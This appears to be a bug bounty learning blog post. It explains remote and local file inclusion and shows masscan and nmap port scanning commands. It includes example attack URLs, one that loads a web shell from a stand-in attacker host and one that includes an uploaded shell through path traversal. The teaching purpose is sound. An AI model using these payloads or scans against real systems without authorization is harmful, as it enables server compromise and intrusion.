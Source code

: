 ```yaml
---
title:  "Day 15/100 Hack and Improvement"
date: 2020-05-16
tags: [Penetration Testing, Hacking, Bug Bounty, Offensive Security]
header: 
  image: "assets/images/100dl/day16/header.jpg"
---
```


After two weeks of constant learning and hacking, we finally have gotten some results! [Rajesh Ranjan](https://twitter.com/eh_rajesh) with a great P2 level vulnerability in [Bugcrowd](https://bugcrowd.com/), and [Sam (CoffeeJunkie)](https://twitter.com/coffeejunkiee_) with his first valid vulnerability report in [intigriti](https://www.intigriti.com/).

Here it is the P2 level vulnerabilty that have gotten triaged by [Rajesh Ranjan](https://twitter.com/eh_rajesh)
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/100dl/day16/rajesh.jpg" alt="nmap scan">

And the first valid vulnerability report from [Sam (CoffeeJunkie)](https://twitter.com/coffeejunkiee_)
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/100dl/day16/sam.png" alt="nmap scan">

Day 16 comes with more learning about the following vulnerabilities. 

## File Inclusion Vulnerabilities

From [Rajesh Ranjan](https://twitter.com/eh_rajesh). A file inclusion vulnerability allows an attacker to access unauthorized or sensitive files available on the web server or to execute malicious files on the web server by making use of the ‘include’ functionality.
This vulnerability is mainly due to a bad input validation mechanism, wherein the user’s input is passed to the file include commands without proper validation. This vulnerability can cause code execution attacks, or even read internal sensitive files present on the server.
There are Basically two types of file inclusion vulnerability.

1. Remote File Inclusion (RFI)
2. Local File Inclusion (LFI)

### Remote File Inclusion

Remote file inclusion occurs when web application includes a remote file or any script located on another server. 
For example, there is a website named example.com, including its index.php using a file parameter as follows
```
https://example.com/file=index.php
```

Now in this case, an attacker may be able to exploit this functionality, and can place an evil code named evil.php on his own server that contains a web shell, and might be able to exploit as:
```
http://example.com/?file=http://attacker.example.com/evil.php
```

Now as soon as this code executes, attack might be able to gain a reverse shell on his side, and has full access of the web server.

### Local File Inclusion

Local file inclusion occurs when an attacker may be able to trick application to expose the file of the web server. A successful LFI attack may lead to XSS, code execution attacks. Basically LFI occurs when application uses path to a file as input.
LFI is much similar to RFI, but in LFI an attacker may only include local file (not remote files as RFI).

Case 1: Suppose, there is an upload section on the server, and an attacker has successfully uploaded a web shell to the server, then can trick the web sever to include that web shell file named evil.php as follows
```
http://example.com/?file=../../uploads/evil.php
```

So by this way, he/she can get the code execution on the server.

Case 2:  The another attack which we can perform using LIF is Directory traversal attack. Check this out [here](https://coffeejunkie.me/day15/).

### Cheatsheets and Payloads

1. https://github.com/cyberheartmi9/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal

## Port Scanning For Recon

From [Sam (CoffeeJunkie)](https://twitter.com/coffeejunkiee_). Port scanning for network and web application pentesting can open a new eye full of possibilites. Two of the most known port scanners are [masscan](https://github.com/robertdavidgraham/masscan) and the classic [nmap](https://nmap.org/). There is a big difference between nmap and masscan, usually nmap takes longer than masscan due to its programming language, and network scanning methods. Masscan is faster because has been programmed in C and it can scan the whole internet with enough hardware in 15 minutes. 

### Scanning methods 

One of the methods in order to obtain fast and decent results is first using [masscan](https://github.com/robertdavidgraham/masscan) due to its speed. 
```
masscan -iL resolved-ips.txt -p1-65535 -oL output.txt
```

Once the scan is done and you see interesting ports such as 4080,21, and such you can use nmap to get detailed information from one IP. 
```
nmap -Pn -T4 -A 10.10.10.10 -p21,4080 -oN output.nmap
```

### Advantages

Some cases depending on the target, they might be running different kind of vulnerable software that might lead to further exploitation. It is strongly recommend to use nmap scripts. [Here](https://nmap.org/book/man-nse.html) you can find more information related to the scripts.

